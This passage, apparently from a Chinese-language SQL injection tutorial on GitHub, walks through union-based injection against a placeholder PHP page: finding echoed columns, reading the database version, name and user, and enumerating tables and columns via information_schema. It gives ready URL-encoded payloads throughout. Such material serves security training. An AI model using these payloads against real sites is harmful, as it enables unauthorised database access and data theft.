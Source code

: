 PS：联合查询时记得把前面的查询为空

例如：

   [www.xxx.com/xxx.php?id=-2](http://www.xxx.com/xxx.php?id=-2)'%20union%20select%201,2,3#

下图说明第2、3字段可回显

![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/SQL%E6%B3%A8%E5%85%A5/media/1634051626650780000301.png)
## 5.4. **判断数据库信息**

在回显位置插入数据库内置函数

数据库版本：version() 、数据库名：database() 、数据库用户名：user() 

操作系统信息：select @@global.version_compile_os from mysql.user

例如：

   [www.xxx.com/xxx.php?](http://www.xxx.com/xxx.php?) id=-2’%20union%20select%201,2,user()#

![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/SQL%E6%B3%A8%E5%85%A5/media/1634051626652538000944.png)
## 5.5. **查询数据**

mysql>5.0版本中，information_schema这这个数据库中保存了MySQL服务器所有数据库的信息。如数据库名，数据表，表里的数据类型与访问权限等（这台MySQL服务器上，到底有哪些数据库、各个数据库有哪些表，每张表的字段类型是什么，各个数据库要什么权限才能访问，等等信息都保存在information_schema里面）。

```sql
information_schema的表schemata中的列schema_name记录了所有数据库的名字
information_schema的表tables中的列table_schema记录了所有数据库的名字
information_schema的表tables中的列table_name记录了所有数据库的表的名字
information_schema的表columns中的列table_schema记录了所有数据库的名字
information_schema的表columns中的列table_name记录了所有数据库的表的名字
information_schema的表columns中的列column_name记录了所有数据库的表的列的名字

查名：select group_concat(table_name) from information_schema.tables where table_schema=database()
查段名：select group_concat(column_name) from information_schema.columns where table_name=‘表名’
查询数据：select 字段1,字段2 from 表名
例如：
id=-2'%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20
table_schema=database()#
```
![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/SQL%E6%B3%A8%E5%85%A5/media/1634051626657809000369.png)
